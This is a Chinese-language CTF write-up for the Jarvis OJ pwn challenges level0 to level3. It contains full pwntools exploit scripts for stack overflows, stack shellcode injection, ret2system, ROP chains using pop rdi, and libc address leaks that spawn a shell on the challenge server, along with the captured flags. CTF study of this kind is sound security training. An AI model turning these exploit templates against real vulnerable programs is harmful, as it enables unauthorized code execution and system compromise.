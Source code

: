 ```yaml
---
title: Jarvis_OJ_pwn_level1to3
date: 2020-07-08 17:55:21
tags: 
- pwn
categories:
- CTF
---
```

# level0
x86栈溢出
## exp1
```python
from pwn import *
#nc pwn2.jarvisoj.com 9881
io = remote("pwn2.jarvisoj.com",9881)


io.recvuntil("Hello, World\n")
payload = b'a'*0x88 +p64(0x0400596)

io.sendline(payload)
io.interactive()

# CTF{713ca3944e92180e0ef03171981dcd41}
```

# level1

x86栈溢出 + pwntools自带的x86 shellcode使用

保护全灰,可以写shellcode了

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial

```cpp
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  printf("What's this:%p?\n", &buf);
  return read(0, &buf, 0x100u);
}
```
这里会输出buf的地址，在buf内设置shellcode，然后覆盖堆栈将ret跳转的目标修改到buf的开头（即 set ip 到shellcode的起始点）然后执行shellcode，再进交互系统

## exp2
```python
from pwn import *
context( arch = 'i386')
# 先选相应系统
# log_level = 'debug'

#io = process('./level1')
io = remote('pwn2.jarvisoj.com', 9877)
shellcode = asm(shellcraft.sh())
#print("shell:\n",shellcraft.sh())

# What's this:0x ffb0aa80 ?\n

buf = int(io.recvline()[14: -2], 16)

payload = shellcode + b'\x90' * (0x88 + 0x4 - len(shellcode)) 
payload += p32(buf) #修改 ret 跳转目标
io.send(payload)
io.interactive()


# CTF{82c2aa534a9dede9c3a0045d0fec8617}
```



# level2

x86栈溢出 + x86传参规律

```python
from pwn import *
#设置目标机的信息，用来建立远程链接，url或ip指明了主机，port设置端口
r = remote("pwn2.jarvisoj.com", 9878)
# nc pwn2.jarvisoj.com 9878
system=0x08048320
#r.recvuntil('Input:')
sh = 0x0804A024

payload = b'a' * (0x88+4) + p32(system)+ p32(0) +p32(sh)

r.recvline("Input:")
r.sendline(payload)

r.interactive()

# 0804A024 /bin/sh
# 08048320 system
```

又由于调用函数压参数是逆序，所以将system唯一一个参数放在system的返回位置后面一个位置就ok了

# level2 x64

先用ROPgadget找程序内有没有 pop rdi 可用拿来用 (ROPgadget真是好东西)

```shell
0x00000000004006b3 : pop rdi ; ret
```

pop rdi 把binsh_addr传入rdi

ret 把system_addr 给 rip

就变成了执行 system ( [rdi] )

## exp
```python
from pwn import *
system_addr=0x000000000040063E
poprdi_drt=0x00000000004006b3
binsh_addr=0x0000000000600A90
p=remote("pwn2.jarvisoj.com",9882)
p.recvline()
payload=b'A'*0x80+b"A"*8+p64(poprdi_drt)+p64(binsh_addr)+p64(system_addr)
p.send(payload)
p.interactive()
'''
x64 优先使用用寄存器传参
rdi, rsi, rdx, rcx, r8, r9。当参数为 7 个以上时， 
前 6 个与前面一样， 但后面的依次从 "右向左" 放入栈中。
CTF{081ecc7c8d658409eb43358dcc1cf446}
'''
```

# level3  x86

锁了 NX ,要泄露 libc

之前没怎么看懂泄露 libc的操作，这两天闲着看了看算是看明白了

```python
from pwn import *
io = remote('pwn2.jarvisoj.com',9879)
write_plt=0x8048340
read = 0x804844B
write_got=0x804A018
payload1 = b'a' * (0x88 + 0x4) + p32(write_plt) + p32(read) + p32(0x01) + p32(write_got) + p32(0x04)

io.recvuntil('Input:\n')
io.sendline(payload1)
write_add = u32(io.recv(4))

# 计算system函数和/bin/sh在内存中的真实地址
libc = ELF('./libc-2.19.so')

t = write_add - libc.symbols['write']
system = t + libc.symbols['system']
binsh = t + next(libc.search(b'/bin/sh'))

payload2 = b'a'*(0x88 + 0x4) 
payload2 += p32(system) + p32(0) + p32(binsh)

io.recvuntil('Input:\n')
io.sendline(payload2)
io.interactive()
io.close()
```

> 好像只要是程序和libc里面有的函数都可以拿来泄露...



每次运行内存中的位置会发生变化



溢出修改ret跳转值


执行到write内部，函数将 write_got 作为参数输出在了屏幕上

# level3 x64

和x86版的区别是传参要借助寄存器,所以要找 pop 来传参(话说传参方式应该还有很多吧?)

```cpp
--> 0x00000000004006b3 : pop rdi ; ret
--> 0x00000000004006b1 : pop rsi ; pop r15 ; ret
```

```python
from pwn import *
p=remote("pwn2.jarvisoj.com", "9883")

elf=ELF('./level3_x64')
libc=ELF('./libc-2.19.so')

context.log_level="debug"

main_add=0x4005e6
writeplt=elf.symbols['write']
writegot=elf.got['write']
rdiset=0x00000000004006b3  # 1 

rsiset=0x00000000004006b1 #2


payload0 = 0x88*b'a'
payload0+=p64(rdiset)
payload0+=p64(1) #  1 赋给 rdi
payload0+=p64(rsiset) 
payload0+=p64(writegot) # writegot 给 rsi

payload0+=p64(8) # 跳过 r15
payload0+=p64(writeplt)# write(1,writegot,0x200) rdx的0x200是read给的

payload0+=p64(main_add)

p.recvuntil("Input:\n")
p.sendline(payload0)

writeaddr=p.recv(8)# 收集 writegot 地址
writeaddr=u64(writeaddr)

sysoffest=libc.symbols['system']
binoffest=next(libc.search(b'/bin/sh'))
t = writeaddr - libc.symbols['write']
system=sysoffest + t
sh=binoffest + t

payload1 = b'a'*0x88
payload1 += p64(rdiset)
payload1 += p64(sh)+p64(system)

p.recvuntil("Input:\n")
p.sendline(payload1)
p.interactive()

```
